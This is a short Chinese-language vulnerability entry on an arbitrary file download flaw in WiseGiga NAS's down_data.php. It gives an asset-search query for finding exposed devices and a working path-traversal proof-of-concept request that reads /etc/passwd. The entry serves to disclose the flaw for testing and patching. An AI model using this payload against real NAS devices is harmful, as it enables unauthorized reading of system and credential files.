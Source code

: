 # 

# WiseGiga NAS down_data.php 任意文件下载漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WISEGIGA NAS down_data.php 存在任意文件下载漏洞，由于 /down_data.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
WiseGiga NAS
```

## 网络测绘

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面

![image-20220628113649787](./images/202206281136917.png)

验证POC

```
/down_data.php?filename=../../../../../../../../../../../../../../etc/passwd
```

![image-20220628113749412](./images/202206281137504.png)

